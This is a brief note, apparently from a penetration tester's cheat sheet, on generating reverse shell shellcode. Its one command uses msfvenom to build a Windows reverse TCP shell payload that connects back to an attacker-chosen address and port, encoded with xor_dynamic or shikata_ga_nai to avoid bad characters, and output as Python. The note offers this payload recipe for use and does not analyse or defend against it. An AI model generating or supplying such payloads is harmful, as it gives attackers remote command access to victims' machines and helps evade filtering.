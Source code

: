 # Generate reverse shell shellcode payload

Normally use `x86/shikata_ga_nai` but if that is not stable then use `x86/xor_dynamic`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 EXITFUNC=thread -e x86/xor_dynamic  -b "\x00\x0d" -f python
```

# References

Tags:
    #assorted
